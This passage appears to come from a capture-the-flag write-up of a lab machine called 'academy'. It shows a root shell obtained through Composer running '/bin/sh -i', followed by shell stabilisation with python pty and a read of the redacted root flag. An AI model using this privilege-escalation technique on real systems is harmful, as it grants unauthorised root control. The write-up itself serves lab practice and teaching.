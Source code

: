 ```
PHP Warning:  PHP Startup: Unable to load dynamic library 'pdo_mysql.so' (tried: /usr/lib/php/20190902/pdo_mysql.so (/usr/lib/php/20190902/pdo_mysql.so: undefined symbol: mysqlnd_allocator), /usr/lib/php/20190902/pdo_mysql.so.so (/usr/lib/php/20190902/pdo_mysql.so.so: cannot open shared object file: No such file or directory)) in Unknown on line 0
Do not run Composer as root/super user! See https://getcomposer.org/root for details
> /bin/sh -i 0<&3 1>&3 2>&3
#
```

### Obtaining root flag
Now, all that is left for us to do, is to stabilize the shell and obtain the system flag.

```
# python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
root@academy:/tmp/tmp.EsDqOACQwI# export TERM=xterm
export TERM=xterm
root@academy:/tmp/tmp.EsDqOACQwI# stty cols 132 rows 34
stty cols 132 rows 34
root@academy:/tmp/tmp.EsDqOACQwI# cat /root/root.txt
cat /root/root.txt
<Redacted root flag>
```
